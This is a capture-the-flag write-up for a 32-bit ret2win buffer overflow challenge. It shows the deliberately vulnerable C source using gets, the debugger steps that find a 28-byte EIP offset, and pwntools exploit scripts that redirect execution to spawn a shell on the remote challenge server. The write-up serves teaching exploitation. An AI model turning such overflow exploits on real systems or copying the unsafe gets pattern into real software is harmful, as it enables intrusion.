

import PostFileDownload from "../../../components/PostFileDownload.astro";

## Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

<PostFileDownload name="2024-huntress-babybufov.zip" />

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win) guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!


